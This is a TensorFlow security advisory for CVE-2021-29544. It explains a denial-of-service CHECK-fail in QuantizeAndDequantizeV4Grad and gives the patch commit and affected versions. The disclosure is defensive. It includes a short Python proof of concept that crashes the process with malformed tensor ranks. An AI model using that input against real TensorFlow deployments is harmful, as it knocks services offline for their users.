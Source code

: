 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-031.md
## TFSA-2021-031: `CHECK`-fail in `QuantizeAndDequantizeV4Grad`

### CVE Number
CVE-2021-29544

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.QuantizeAndDequantizeV4Grad`:

```python
import tensorflow as tf

gradient_tensor = tf.constant([0.0], shape=[1])
input_tensor = tf.constant([0.0], shape=[1])
input_min = tf.constant([[0.0]], shape=[1, 1])
input_max = tf.constant([[0.0]], shape=[1, 1])

tf.raw_ops.QuantizeAndDequantizeV4Grad(
  gradients=gradient_tensor, input=input_tensor,
  input_min=input_min, input_max=input_max, axis=0)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/95078c145b5a7a43ee046144005f733092756ab5/tensorflow/core/kernels/quantize_and_dequantize_op.cc#L162-L163)
does not validate the rank of the `input_*` tensors. In turn, this results in
the tensors being passes as they are to
[`QuantizeAndDequantizePerChannelGradientImpl`](https://github.com/tensorflow/tensorflow/blob/95078c145b5a7a43ee046144005f733092756ab5/tensorflow/core/kernels/quantize_and_dequantize_op.h#L295-L306):

```cc
template <typename Device, typename T>
struct QuantizeAndDequantizePerChannelGradientImpl {
  static void Compute(const Device& d,
                      typename TTypes<T, 3>::ConstTensor gradient,
                      typename TTypes<T, 3>::ConstTensor input,
                      const Tensor* input_min_tensor,
                      const Tensor* input_max_tensor,
                      typename TTypes<T, 3>::Tensor input_backprop,
                      typename TTypes<T>::Flat input_min_backprop,
                      typename TTypes<T>::Flat input_max_backprop) {
    ...
    auto input_min = input_min_tensor->vec<T>();
    auto input_max = input_max_tensor->vec<T>();
    ...
}
```

However, the `vec<T>` method, requires the rank to 1 and triggers a `CHECK`
failure otherwise.

### Patches
We have patched the issue in GitHub commit
[20431e9044cf2ad3c0323c34888b192f3289af6b](https://github.com/tensorflow/tensorflow/commit/20431e9044cf2ad3c0323c34888b192f3289af6b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2 as this is the only other affected version.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
